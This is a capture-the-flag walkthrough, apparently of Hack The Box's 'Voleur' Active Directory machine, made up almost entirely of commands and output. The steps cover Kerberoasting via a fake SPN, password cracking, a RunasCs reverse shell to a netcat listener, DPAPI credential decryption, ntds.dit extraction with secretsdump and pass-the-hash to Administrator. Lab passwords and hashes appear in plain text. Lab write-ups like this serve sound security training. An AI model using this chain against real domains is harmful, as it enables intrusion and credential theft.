

Voleur
ryan.naylor:HollowOct31Nyt
$ nmap 10.10.11.76 --min-rate 3000
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
2222/tcp open EtherNetIP-1
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
$ nxc smb <machine-ip> -u ryan.naylor -p HollowOct31Nyt
$ <machine-ip> voleur.htb dc.voleur.htb dc
$ faketime "$(rdate -n dc.voleur.htb -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
$ getTGT.py -dc-ip "dc.voleur.htb" "voleur.htb"/"ryan.naylor":"HollowOct31Nyt"
$ export KRB5CCNAME="$(pwd)/ryan.naylor.ccache"
$ nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt --use-kcache
$ bloodhound.py --zip -c All -d "voleur.htb" -u "ryan.naylor" -p "HollowOct31Nyt" -ns "10.10.11.76" -k -no-pass

$ nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt --use-kcache --shares
Access to the IT share with read privilege
$ smbclient.py dc.voleur.htb -k -no-pass
Now we have access to a directory First-Line Support which contain the file Access_Review.xlsx
We download it locally using
$ get Access_Review.xlsx
$ libreoffice --calc Access_Review.xlsx

$ office2john.py Access_Review.xlsx > Access_Review.hash
$ john --wordlist=rockyou.txt Access_Review.hash
Access_Review.xlsx:football1

svc_ldap:M1XyC9pW7qT5Vn svc_iis:N5pXyW1VqM7CZ8

$ bloodyAD --host "dc.voleur.htb" -d "voleur.htb" -u "svc_ldap" -p "M1XyC9pW7qT5Vn" -k set object S-1-5-21-3927696377-1337352550-2781715495-1601 serviceprincipalname -v FAKE/voleur.htb
$ nxc ldap "dc.voleur.htb" -d "voleur.htb" -u "svc_ldap" -p "M1XyC9pW7qT5Vn" -k --kerberoasting hashes.txt
$ john --wordlist=rockyou.txt hashes.txt
svc_winrm:AFireInsidedeOzarctica980219afi
We have to edit the krb5.conf file to use kerberos authentification with evil-winrm.
We will add the following lines:
VOLEUR.HTB = {
kdc = dc.voleur.htb
}
$ getTGT.py -dc-ip "dc.voleur.htb" "voleur.htb"/"svc_winrm":"AFireInsidedeOzarctica980219afi"
Again, don't forget to change the KRB5CCNAME environment's variable: export KRB5CCNAME="$(pwd)/svc_winrm.ccache"
$ evil-winrm -i "dc.voleur.htb" -r VOLEUR.HTB
The user.txt is in C:\Users\svc_winrm\Desktop
upload /workspace/RunasCs.exe C:\\Users\\svc_winrm\\Desktop\\RunasCs.exe
$ nc -lvnp 4444
./RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell -r <my-ip>:4444
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db
todd.wolfe:NightT1meP1dg3on14
todd.wolfe has also access to the IT share. Using the same method as earlier (with rayan.naylor) we will see what it contains.
It appears that the share for todd.wolfe contain a /Second-Line Support/Archived Users/todd.wolfe directory.
It looks like a Windows home directory, and there is an interesting AppData/Roaming directory.
Inside it we can find a credential file in Credential/ and the masterkey to decryt it in Protect/S-1-5-21-3927696377-1337352550-2781715495-1110
# cd Credentials
# ls
drw-rw-rw- 0 Wed Jan 29 16:13:09 2025 .
drw-rw-rw- 0 Wed Jan 29 16:13:09 2025 ..
-rw-rw-rw- 398 Wed Jan 29 14:13:50 2025 772275FAD58525253490A9B0039791D3
# get 772275FAD58525253490A9B0039791D3
# cd ../Protect/S-1-5-21-3927696377-1337352550-2781715495-1110
# ls
drw-rw-rw- 0 Wed Jan 29 16:13:09 2025 .
drw-rw-rw- 0 Wed Jan 29 16:13:09 2025 ..
-rw-rw-rw- 740 Wed Jan 29 14:09:25 2025 08949382-134f-4c63-b93c-ce52efc0aa88
-rw-rw-rw- 900 Wed Jan 29 13:53:08 2025 BK-VOLEUR
-rw-rw-rw- 24 Wed Jan 29 13:53:08 2025 Preferred
# get 08949382-134f-4c63-b93c-ce52efc0aa88
We download both files and first we will decrypt the masterkey using the dpapi.py tool:
$ dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
Then we can decrypt the hidden credential, still with dpapi.py:
$ dpapi.py credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies
[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target : Domain:target=Jezzas_Account
Description :
Unknown :
Username : jeremy.combs
Unknown : qT3V9pLXyN7W4m
jeremy.combs:qT3V9pLXyN7W4m
jeremy.combs can also read the IT shared directory. He has access to a Third-Line Support that contains 2 things:
- Notes.txt: which is a note left by the administrator talking about using linux backup tools by using WSL.
- id_rsa: which is probably the private key that we will use to connect to the ssh server opened on WSL.
It also contains a Backups/ directory that we can't read for now.
But if we try to connect to the ssh server normaly it won't work:
ssh jeremy.combs@voleur.htb -i id_rsa
That is for 2 reasons.
First if we look closer to the port 2222 that we scanned during our first nmap execution we see that the ssh server is running on it.
By default the port of the ssh service is 22, we need to change this in our command.
$ nmap 10.10.11.76 --min-rate 3000 -sV -p 2222
Starting Nmap 7.93 ( https://nmap.org ) at 2025-11-08 08:25 CET
Nmap scan report for voleur.htb (10.10.11.76)
Host is up (1300s latency).
PORT STATE SERVICE VERSION
2222/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
And the second problem is the user that we use to login. We need to use the svc_backup user that we saw earlier in the .xslx file.
Don't forget to give restricted permission to the private key:
chmod 600 id_rsa
$ ssh svc_backup@voleur.htb -i id_rsa -p 2222
On WSL we can go root very easily knowing that svc_backup can execute any command as root using sudo.
$ sudo -l
Matching Defaults entries for svc_backup on DC:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User svc_backup may run the following commands on DC:
(ALL : ALL) ALL
(ALL) NOPASSWD: ALL
$ sudo su
# whoami
root
It is useless though, since we want to escalate to root on the Windows machine.
The useful data for that can be found in /mnt/c/IT, we have the same shared directory that we've seen earlier with jeremy.combs.
However now we can read the Backups/ directory and this is our key to the root on the Windows machine.
In Backups/ we can find the ntds.dit file and the SECURITY and SYSTEM files that allow us to dump all the user on the DC and their passwords.
$ scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit" .
...
$ scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM" .
...
$ scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/registry/SECURITY" .
...
$ secretsdump.py -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
With this we get the Administrator NTLM hash that is dumped.
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
We can ask a TGT ticket for Administrator using the hash found.
$ getTGT.py -dc-ip "dc.voleur.htb" "voleur.htb"/"Administrator" -hashes aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2
We just have to use evil-winrm with the obtained ticket and we are now log in as Administrator !
The root.txt is in C:\Users\Administrator\Desktop